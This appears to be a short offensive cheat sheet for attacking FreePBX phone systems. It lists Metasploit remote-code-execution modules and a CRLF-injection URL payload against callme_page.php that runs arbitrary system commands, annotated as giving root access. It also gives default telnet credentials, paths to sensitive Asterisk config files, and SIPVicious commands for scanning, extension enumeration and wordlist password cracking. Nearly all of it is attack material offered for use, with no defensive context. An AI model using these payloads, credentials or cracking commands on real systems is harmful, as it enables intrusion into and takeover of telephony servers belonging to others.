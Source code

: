 # FreePBX application vuln

## Exploits

### Metasploit

####  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/unix/http/freepbx_callmenum      2012-03-20       manual     No     FreePBX 2.10.0 / 2.9.0 callmenum Remote Code Execution
   1  exploit/unix/webapp/freepbx_config_exec  2014-03-21       excellent  Yes    FreePBX config.php Remote Code Execution

### RCE

```
/recordings/misc/callme_page.php?action=c&callmenum=2001@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20{cmd}%0D%0A%0D%0A
```
=> Give root access

### Config files

default cred telnet : admin
                      amp1111


/etc/asterisk/voicemail.conf
/etc/asterisk/manager.conf

### Tools

#### Metasploit

#####  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/unix/http/freepbx_callmenum      2012-03-20       manual     No     FreePBX 2.10.0 / 2.9.0 callmenum Remote Code Execution
   1  exploit/unix/webapp/freepbx_config_exec  2014-03-21       excellent  Yes    FreePBX config.php Remote Code Execution

#### SIPVICIOUS

sudo svmap host

svwar -e100-999 host

sudo svcrack -u2000 -d /usr/share/wordlists/rockyou.txt host

### SQLMAP

